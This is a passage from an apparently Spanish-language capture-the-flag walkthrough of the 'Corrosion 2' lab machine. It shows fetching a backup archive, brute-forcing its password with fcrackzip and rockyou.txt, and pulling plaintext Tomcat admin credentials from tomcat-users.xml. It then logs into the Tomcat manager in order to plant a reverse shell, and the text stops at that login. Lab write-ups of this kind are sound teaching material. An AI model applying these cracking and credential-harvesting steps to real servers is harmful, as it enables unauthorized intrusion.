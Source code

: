 ```bash
wget http://192.168.0.23:8080/backup.zip
```

2. Descomprimimos
```bash
unzip backup.zip
```
(NO podemos descomprimir el archivo por que esta protegido por una contraseña)

3. Hacemos un ataque de fuerza bruta para conseguir la contresaña utilizamos rockyou.txt

```bash
fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u backup.zip
```
Contraseña: @administrator_hi5

4. Ahora si descomprimimos con esa contraseña

```bash
unzip backup.zip
```


```plaintext
Archive:  corrosion2/backup.zip
[corrosion2/backup.zip] catalina.policy password: 
  inflating: catalina.policy         
  inflating: context.xml             
  inflating: catalina.properties     
  inflating: jaspic-providers.xml    
  inflating: jaspic-providers.xsd    
  inflating: logging.properties      
  inflating: server.xml              
  inflating: tomcat-users.xml        
  inflating: tomcat-users.xsd        
  inflating: web.xml  
``` 
Encontramos todos estos archivos

## Buscamos credenciales de usuarios

1. En el archivo tomcat-users.xml , encontramos credenciales de un usuario

```plaintext
<role rolename="manager-gui"/>
<user username="manager" password="melehifokivai" roles="manager-gui"/>

<role rolename="admin-gui"/>
<user username="admin" password="melehifokivai" roles="admin-gui, manager-gui"/>
```

## Introducir una reverse shell

1. Con la credenciales descubiertas iniciamos sesión en http://192.168.0.23:8080/manager/html

Usuario: admin
Contraseña: melehifokivai
